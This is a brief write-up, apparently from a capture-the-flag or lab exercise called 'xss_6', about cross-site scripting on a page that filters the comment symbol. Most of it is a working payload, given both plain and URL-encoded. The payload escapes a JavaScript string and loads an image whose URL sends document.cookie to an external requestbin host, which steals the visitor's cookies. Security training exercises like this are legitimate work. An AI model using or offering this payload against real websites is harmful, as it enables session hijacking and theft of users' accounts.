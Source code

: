 # xss_6 - Injectable Javascript (no `/*` )
- We notice here that a comment symbol is filtered out so we strip that from our payload.
- Payload (plain), `'; img = new Image(); img.src = "http://requestbin.fullcontact.com/18kxbln1/?c="+document.cookie;var foo = '`
- Payload (URL encoded), `%27%3b%20%69%6d%67%20%3d%20%6e%65%77%20%49%6d%61%67%65%28%29%3b%20%69%6d%67%2e%73%72%63%20%3d%20%22%68%74%74%70%3a%2f%2f%72%65%71%75%65%73%74%62%69%6e%2e%66%75%6c%6c%63%6f%6e%74%61%63%74%2e%63%6f%6d%2f%31%38%6b%78%62%6c%6e%31%2f%3f%63%3d%22%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3b%76%61%72%20%66%6f%6f%20%3d%20%27`
![](https://d2mxuefqeaa7sj.cloudfront.net/s_D1CF04A7F2975FBE28B89C00E052CDE16A28AD0D6622A39C029738E493BE6857_1528364584907_Screenshot+2018-06-07+02.42.05.png)
